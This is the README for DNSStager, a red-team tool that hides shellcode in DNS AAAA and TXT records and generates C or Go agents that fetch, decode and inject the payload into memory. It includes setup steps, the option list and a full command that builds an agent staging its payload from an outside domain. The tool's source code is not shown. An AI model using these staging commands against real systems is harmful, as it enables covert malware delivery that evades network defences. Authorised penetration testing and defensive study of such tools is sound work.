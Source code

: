 # What is DNSStager? ![](https://img.shields.io/badge/python-3-blue)

DNSStager is an open-source project based on Python used to hide and transfer your payload using DNS protocol.

DNSStager will create a malicious DNS server that handles DNS requests to your domain and return your payload as a response to specific records such as `AAAA` or `TXT` records after splitting it into chunks and encode the payload using different algorithms.

DNSStager can generate a custom agent written in `C` or `GoLang` that will resolve a sequence of domains, retrieve the payload, decode it and finally inject it into the memory based on any technique you want.

You can edit the code of DNSStager agent as you wish, and build it using your own custom execution techniques.

The main goal of using DNSStager is to help red teamers/pentesters to deliver their payloads in stealthy channel using DNS.


# How it works?

Based on your DNS resolving option, DNSStager will split your payload into chunks and save each chunk of the payload as a response for a subdomain.

For example, if you choose `IPV6` as an option to retrieve the payload, the DNS response will be like the following:

`cloud-srv-1.test.mydnsserver.live. 300 IN AAAA	5648:31d2:6548:8b52:6048:8b52:1848:8b52`

Where `5648:31d2:6548:8b52:6048:8b52:1848:8b52` is a part of your payload.

So, the agent will resolve some domains to retrieve the payload and then decode it and finally inject it into memory.

Currently, DNSStager support two records which are `AAAA` and `TXT` only; You can encode your payload using XOR for the `AAAA` record and by default it will be encoded as base64 if you choose `TXT` record.

# DNSStager key features:

DNSStager has some key features such as:

* Hide and Resolve your payload as `IPV6` records.
* Hide and Resolve your payload as `TXT` records.
* XOR encoder to encode your payload.
* Base64 encoder to encode your payload (only for TXT records).
* Pure agent written in `C` with the ability to customaize it.
* Pure agent written in `GoLang` with the ability to customaize it.
* The ability to use sleep between each DNS request.
* AND MUCH MORE TO COME!

# Requirements

You can install DNSStager python requirements via:

`pip3 install -r requirements.txt`

You need to install `GoLang` version `1.16.3` and to make sure to install the following `GoLang` packages:

* golang.org/x/sys
* github.com/miekg/dns

Also, make sure to install `ming-w64` via:

`apt install mingw-w64`

The script `setup.sh` should do that for you, but double check the requirements before you use it!

# Installation

To get the latest version of DNSStager, make sure to clone it from this repo using the following command:

`git clone https://github.com/mhaskar/DNSStager`

Then you need to install the requirements using the following command:

`pip3 install -r requirements.txt`

And make sure to install all the previously mentioned requirements too.

After doing all that, you are ready to execute DNSStager **as root** to get the following:

```
┌─[askar@hackbook]─[/opt/redteaming/DNSStager]
└──╼ $sudo ./dnsstager.py



██████╗░███╗░░██╗░██████╗░██████╗████████╗░█████╗░░██████╗░███████╗██████╗░
██╔══██╗████╗░██║██╔════╝██╔════╝╚══██╔══╝██╔══██╗██╔════╝░██╔════╝██╔══██╗
██║░░██║██╔██╗██║╚█████╗░╚█████╗░░░░██║░░░███████║██║░░██╗░█████╗░░██████╔╝
██║░░██║██║╚████║░╚═══██╗░╚═══██╗░░░██║░░░██╔══██║██║░░╚██╗██╔══╝░░██╔══██╗
██████╔╝██║░╚███║██████╔╝██████╔╝░░░██║░░░██║░░██║╚██████╔╝███████╗██║░░██║
╚═════╝░╚═╝░░╚══╝╚═════╝░╚═════╝░░░░╚═╝░░░╚═╝░░╚═╝░╚═════╝░╚══════╝╚═╝░░╚═╝    

    Beta Version                           Hide your payload in DNS

[-] Please specify a domain name using --domain
```
# Usage

To start using DNSStager, make sure to setup your DNS settings first, you need to make your domain points to the DNSStager instance as `NS record` in order to handle all the DNS requests to your domain.

You can read this full article about how to setup and use DNSStager.

And you can check the options using `-h` switch like the following:

```
┌─[askar@hackbook]─[/opt/redteaming/DNSStager]
└──╼ $sudo ./dnsstager.py -h
usage: dnsstager.py [-h] [--domain DOMAIN] [--payloads] [--prefix PREFIX]
                    [--payload PAYLOAD] [--output OUTPUT]
                    [--shellcode_path SHELLCODE_PATH] [--xorkey XORKEY]
                    [--sleep SLEEP]

DNSStager main parser

optional arguments:
  -h, --help            show this help message and exit
  --domain DOMAIN       The domain you want to use as staging host
  --payloads            show all payloads
  --prefix PREFIX       Prefix to use as part of your subdomain schema
  --payload PAYLOAD     Payload to use, see --payloads for more details
  --output OUTPUT       Agent output path
  --shellcode_path SHELLCODE_PATH
                        Shellcode file path
  --xorkey XORKEY       XOR key to encode your payload with
  --sleep SLEEP         sleep for N seconds between each DNS request

```

* --domain: you can use this option to select the main domain you will use to handle the DNS requests for.

* -- prefix: The prefix you want to use for the subdomain schema
For example, if your main domain is `fakedns.live` you can specify the prefix as "cdn" for example, So the generate domains will be a a pattern as the following:

  * `cdn0.fakedns.live`
  * `cdn1.fakedns.live`
  * `cdnN.fakedns.live`

Where `N` is auto generated number represent the number of chunks of your payload.

* --payload: the DNSStager payload "agent" you want to generate based on the technique, programming language and architecture.

* --output: Output path to save DNSStager executable payload "agent".

* --shellcode_path: Your `raw`/`bin` shellcode path.

* --xorkey: XOR key to encode the payload with.

* --sleep: Used to sleep for N seconds between each DNS request.

## DNSStager Payloads

To check the available DNSStager payloads, you can use `./dnsstager.py --payloads` to get the following results:

```
┌─[askar@hackbook]─[/opt/redteaming/DNSStager]
└──╼ $sudo ./dnsstager.py --payloads

[+] 6 DNSStager payloads Available

x64/c/ipv6			Resolve your payload as IPV6 addresses xored with custom key via compiled x64 C code
x86/c/ipv6			Resolve your payload as IPV6 addresses xored with custom key via compiled x86 C code
x64/golang/txt			Resolve your payload as TXT records encoded using base64 compiled x64 GoLang code
x64/golang/ipv6			Resolve your payload as IPV6 addresses encoded with custom key using byte add encoding via compiled x64 GoLang code
x86/golang/txt			Resolve your payload as TXT records encoded using base64 compiled x86 GoLang code
x86/golang/ipv6			Resolve your payload as IPV6 addresses encoded with custom key using byte add encoding via compiled x86 GoLang code
```
## Example of using DNSStager with IPV6

This example will start DNSStager to resolve your payload as `IPV6` using the domain `test.mydnsserver.live` with prefix `cloud-srv-` to generate compiled `x64 C` agent encoded with 0x10 as key:

`sudo ./dnsstager.py --domain test.mydnsserver.live --payload x64/c/ipv6 --output /tmp/a2.exe --prefix cloud-srv- --shellcode_path ~/payload.bin --sleep 1 --xorkey 0x10
`  

And the output will be:

![Alt text](screenshots/Starting-DNSStager-x64-ipv6.png)

And to check if everything is working well, lets send DNS query to `cloud-srv-0.test.mydnsserver.live` to get the following:

![Alt text](screenshots/DNSStager-dig-test.png)

We can see that we received `f642:89ee:fae2:c20a:a0a:4b5b:4b5a:585b` as response which is the first 16 bytes of our encoded payload.

And the agent `/tmp/a2.exe` will do the work for you when you execute it on the target machine.

# License

This project is licensed under the GPL-3.0 License - see the LICENSE file for details
